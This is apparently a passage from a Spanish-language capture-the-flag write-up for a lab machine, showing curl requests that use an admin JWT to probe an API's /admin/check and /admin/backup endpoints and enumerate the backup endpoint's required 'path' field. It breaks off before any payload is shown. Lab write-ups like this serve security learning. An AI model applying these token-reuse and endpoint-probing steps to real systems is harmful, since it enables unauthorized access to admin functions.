 ## Check endpoint
```shell
$ curl -s -X GET http://api.mentorquotes.htb/admin/check -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq
{
  "details": "Not implemented yet!"
}
```
Por aquí parece que no es..

## Backup endpoint
```shell
$ curl -s -X GET http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq
{
  "detail": "Method Not Allowed"
}
```

Esto tiene mejor pinta..
Cambiando el método a POST
```shell
{
  "detail": [
    {
      "loc": [
        "body"
      ],
      "msg": "field required",
      "type": "value_error.missing"
    }
  ]
}
```

Añadiendo el encabezado `Content-Type: application/json` y el parámetro `--data '{}'` (vacío) para poder enumerar que campos necesito rellenar, nos reporta lo siguiente.
```json
{
  "detail": [
    {
      "loc": [
        "body",
        "path"
      ],
      "msg": "field required",
      "type": "value_error.missing"
    }
  ]
}
```
